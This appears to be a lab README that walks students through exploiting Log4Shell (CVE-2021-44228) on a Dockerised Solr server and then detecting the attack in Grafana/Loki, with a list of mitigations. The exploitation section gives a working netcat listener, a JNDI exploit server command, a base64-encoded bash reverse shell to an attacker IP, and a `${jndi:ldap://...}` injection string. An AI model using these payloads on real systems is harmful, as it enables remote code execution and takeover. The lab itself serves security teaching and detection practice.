








# CVE-2021-44228: Log4Shell Exploitation & SOC Detection Lab

## 1. Lab Overview
* **Description of the Vulnerability**: This lab explores **CVE-2021-44228** (Log4Shell), a critical vulnerability in Apache Log4j 2 that allows for unauthenticated Remote Code Execution (RCE). The vulnerability stems from how Log4j processes JNDI (Java Naming and Directory Interface) lookups, enabling an attacker to force the server to download and execute malicious code from a remote source.
* **Learning Objectives**:
    * Build a containerized security environment with deterministic networking.
    * Master the flow of JNDI injection and LDAP referral attacks.
    * Implement and configure a SOC monitoring stack (Loki/Grafana) for real-time threat detection.

## 2. Environment Setup
* **Prerequisites**: Docker, Docker Compose, and a terminal environment (Kali Linux).
* **Setup Instructions**:
    1.  Deploy the SOC stack and victim environment using: `docker compose up -d`.
    


    2.  Confirm all five services are running and verify the assigned static IPs: `docker network inspect log4shell-lab_lab-net`.
    


    3. Verify the dashboard of Solr by visiting `http://localhost:8983`

## 3. Exploitation Walkthrough

### Step 1: Unique Flag Injection
Inject a unique flag into the victim container to ensure individual validation for the assessment:

```bash
# Enter the student ID when prompted
printf "Please enter your student id: "; read STUDENT_ID
HEX_FLAG=$(echo -n "$STUDENT_ID" | sha256sum | cut -c1-12)
docker exec -u root log4shell-lab-solr-1 bash -c "echo 'flag{th1s_1s_a_fl4g_$HEX_FLAG}' > /root/flag.txt"
```
* **Note on Scalability**: While this process is being done manually for this lab, it can be automated for large-scale use by using cloud orchestration tools like **Terraform** or **Kubernetes**. These tools allow for "automated injection," where unique identifiers or security flags are automatically pushed into thousands of systems during the setup phase. This ensures every environment is unique and traceable without the need for manual work on each individual machine.



### Step 2: Attacker Infrastructure Setup
Prepare the attacker machine listeners before sending the exploit:

1. **Netcat Listener**: Open a port to receive the reverse shell connection.

```bash
nc -lnvp 4444
```
2. **JNDI Exploit Server**: Run the malicious LDAP server to point the victim toward the shell command.

```bash
java -jar JNDI-Injection-Exploit.jar -C "bash -c {echo,BASE64_SHELL_HERE}|{base64,-d}|{bash,-i}" -A 10.10.10.1
```
**Note**: 
* Convert your raw command `bash -i >& /dev/tcp/10.10.10.1/4444 0>&1` to base 64 using `echo -n "bash -i >& /dev/tcp/10.10.10.1/4444 0>&1" | base64` and replace the above `BASE64_SHELL_HERE` with the output string 
* Using the standard `&`, `>` symbols for command concatenation proved to be inconsistent in this Java environment. To ensure high reliability and bypass character filtering, convert the command into a **Base64-encoded version** to ensure the JVM executes the string accurately.

### Step 3: Payload Interception and Crafting
1. **Proxy Configuration**: Open **Burp Suite**, navigate to the **Proxy** tab, and launch the built-in browser.

2. **Access Target**: Visit the Solr Cores Admin panel: `http://localhost:8983/solr/admin/cores`.

3. **Intercept & Modify**: Intercept the request and send it to **Repeater**.

4. **Injection**: Locate the `action` parameter and inject the JNDI lookup: `?action=${jndi:ldap://10.10.10.1:1389/exploit}`.



5. **URL Encoding**: Highlight the injected string and press `Ctrl+U`. This step is critical for the web server to correctly parse the special characters (like `{`, `$`, and `:`) within the JNDI string.



### Step 4: Execution & RCE
Send the modified request. The Solr logging system triggers the JNDI lookup, leading to the LDAP referral and granting root access to the attacker terminal.

## 4. Post-Exploitation & Detection
* **Evidence Retrieval**: Confirm RCE by navigating to the root directory and reading the student-specific flag.



```bash
# Inside the reverse shell
cat /root/flag.txt
```



* **SOC Detection Workflow**:
  1. **Configure Source**: In Grafana (`localhost:3000`), navigate to **Connections** > **Data Sources**, add **Loki**, and set the URL to `http://loki:3100`.

  2. **Build Query**: Open **Explore**, select **Loki** as the source, and use the **Label Browser** to select `container` = `log4shell-lab-solr-1`.

  3. **Detect Threat**: In the query field, search for the specific signature `jndi:ldap` and run the query to observe the exact timestamp and source of the attack.



* **Suggested Mitigations**: To secure an environment against Log4Shell, the following strategies are recommended:
   1. **Software Patching (Primary Defense)**: The most effective mitigation is to update the Log4j library to a secure version.
      * **Update to Log4j 2.17.1 (or higher)**: Versions 2.15.0 and 2.16.0 had incomplete fixes. Version 2.17.1 completely disables JNDI lookups by default and removes support for message lookup patterns.

  2. **Configuration Hardening (Short-term Fix)**:
If immediate patching is not possible, the following configuration changes can be applied:
      * **Disable JNDI Lookups**: For Log4j versions 2.10 to 2.14.1, set the system property `log4j2.formatMsgNoLookups` to `true`. This can be done by adding `-Dlog4j2.formatMsgNoLookups=true` to the JVM startup arguments.
      * **Environment Variable**: Set the environment variable `LOG4J_FORMAT_MSG_NO_LOOKUPS=true` on the host system.

   3. **Network-Level Defenses**
      * **Egress Filtering**: Restrict outgoing traffic from application servers. In this lab, the attack relied on the victim connecting outbound to the LDAP server on port `1389`. A strict firewall policy that blocks unauthorized outbound connections would have prevented the reverse shell from ever reaching the attacker.

      * **WAF (Web Application Firewall)**: Implement WAF rules to inspect incoming headers (like `User-Agent`) and parameters for the `${jndi:ldap://...}` pattern.

  4. **Runtime Protection**
      * **Remove the JndiLookup class**: In legacy environments where patching is impossible, a manual "surgical" fix involves removing the `JndiLookup.class` file from the `log4j-core` JAR file to physically eliminate the vulnerable code path.
